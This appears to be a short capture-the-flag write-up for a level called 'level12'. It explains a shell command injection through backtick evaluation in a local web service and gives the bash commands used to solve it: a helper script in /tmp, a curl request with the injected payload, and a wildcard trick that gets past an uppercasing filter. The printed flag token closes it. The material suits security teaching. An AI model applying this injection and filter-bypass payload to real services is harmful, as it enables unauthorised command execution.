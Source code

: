 # level12

The program uses backticks to evaluate a shell script.

We can exploit this and evaluate the code contained in the `$xx` variable.

But regexes delete everything after a space & make everything uppercase (x="`getflag>/tmp/token`" -> x="`GETFLAG>/TMP/TOKEN`").

```bash
echo 'getflag > /tmp/flag' > /tmp/SCRIPT
chmod +x /tmp/SCRIPT
curl 'localhost:4646?x="`/*/script`"' # We use wildcard because /tmp would become /TMP
cat /tmp/flag
# Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

